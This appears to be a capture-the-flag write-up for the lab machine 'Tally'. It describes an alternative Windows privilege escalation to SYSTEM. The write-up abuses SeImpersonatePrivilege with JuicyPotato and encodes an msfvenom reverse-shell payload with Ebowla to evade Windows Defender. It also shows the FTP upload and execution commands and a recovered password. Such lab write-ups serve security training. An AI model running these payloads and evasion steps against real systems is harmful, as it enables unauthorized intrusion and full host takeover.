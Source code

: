 # Alternative way to exploit Tally

## Privilege Escalation - Alternative Method 1

The privilege escalation to _Administator_ can also be done in another way after we are _sarah_.
When looking at the privileges of the user _sarah_, we see that the _SeImpersonatePrivilege_ token is enabled.
```markdown
whoami /priv

# Output
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The local enumeration script **Powerup.ps1** shows her password:
> mylongandstrongp4ssword!

The SeImpersonatePrivilege token can be abused for [privilege escalation with Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/).

There is another version called [Juicy Potato](https://github.com/ohpe/juicy-potato) that I will use for this.

As we read from the text files in the home directory, Windows Defender is probably enabled and will block this so we also have to evade the Anti-Virus system. Because of that we will encode the binary with the [Ebowla Framework](https://github.com/Genetic-Malware/Ebowla).

Change the _genetic.config_ file:
```markdown
(...)
output_type = GO
(...)
payload_type = EXE
(...)
computername = 'TALLY'
(...)
```

Create a payload file with **Msfvenom**:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9003 -f exe -a x64 -o shell-9003.exe
```

Encode the payload _shell-9003.exe_ with **Ebowla**:
```markdown
python ebowla.py shell-9003.exe genetic.config
```

This creates the file in the _output_ folder as _go_symmetric_shell-9003.exe.go_ and we need to build it with **Go**:
```markdown
./build_x64_go.sh output/go_symmetric_shell-9003.exe.go ebowla-shell-9003.exe
```

This creates the file in the _output_ folder as _ebowla-shell-9003.exe_. Lets upload **JuicyPotato.exe** and the payload on the box via FTP:
```markdown
ftp 10.10.10.59

ftp> cd Intranet
ftp> binary
ftp> put ebowla-shell-9003.exe
ftp> put JuicyPotato.exe
```

Now execute **JuicyPotato** with the payload after starting a listener on port 9003:
```markdown
C:\FTP\Intranet\JuicyPotato.exe -l 9003 -p ebowla-shell-9003.exe -t *
```

The listener on my IP and port 9003 starts a shell as _NT AUTHORITY/SYSTEM_!
